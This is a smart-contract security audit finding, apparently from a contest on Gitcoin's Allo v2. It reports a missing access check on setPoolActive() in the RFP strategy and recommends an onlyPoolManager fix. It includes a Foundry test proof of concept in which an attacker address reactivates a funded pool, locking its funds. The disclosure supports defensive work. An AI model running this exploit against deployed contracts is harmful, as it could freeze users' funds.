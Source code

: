 Digital Berry Horse

high

# Anyone can active or deactivate RFP Strategy pools
## Summary
Anyone can active or deactivate RFP Strategy pools since there is no check if the _msg.sender_ has the pool manager role when calling _setPoolActive()_
## Vulnerability Detail
As there is no validation in the function _setPoolActive()_ that the _msg.sender_ is a _poolManager_, anyone can call it activating or deactivating a pool. Example with loss of funds: once the strategy is funded and ready to _distribute_, an attacker could reactivate the pool, making it impossible to _distribute_ or to _withdraw_, since both functions require the pool to be inactive in order to call them. Here is a PoC:

      function test_setPoolActiveAttacker() public {
          address recipientId = __register_setMilestones_allocate_submitUpcomingMilestone();
          vm.deal(pool_admin(), 1e19);
          
          // Pool is funded: this funds will be lost
          vm.startPrank(pool_admin());
          allo().fundPool{value: 1e19}(poolId, 1e19);
          assertEq(strategy.isPoolActive(), false);
          vm.stopPrank();
          
          // Attacker reactivates tge pool
          vm.startPrank(makeAddr("Attacker"));
          strategy.setPoolActive(true);
          assertEq(strategy.isPoolActive(), true); 
          vm.stopPrank();
          
          // Not able to distribute
          vm.expectRevert(POOL_ACTIVE.selector);
          vm.prank(address(allo()));
          strategy.distribute(new address[](0), "", pool_admin());
          
          // Not able to withdraw
          vm.expectRevert(POOL_ACTIVE.selector);
          vm.prank(pool_admin());
          strategy.withdraw(1e18);
      }

## Impact
Funding pools that use a RFP Strategy will result in funds locked in the FRP Strategy contract.

## Code Snippet
Check missing:
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L216-L222

Affected functions:
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L295
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L417-L423
## Tool used

Manual Review and Foundry

## Recommendation
Add the modifier _onlyPoolManager(msg.sender)_ to _setPoolActive()_.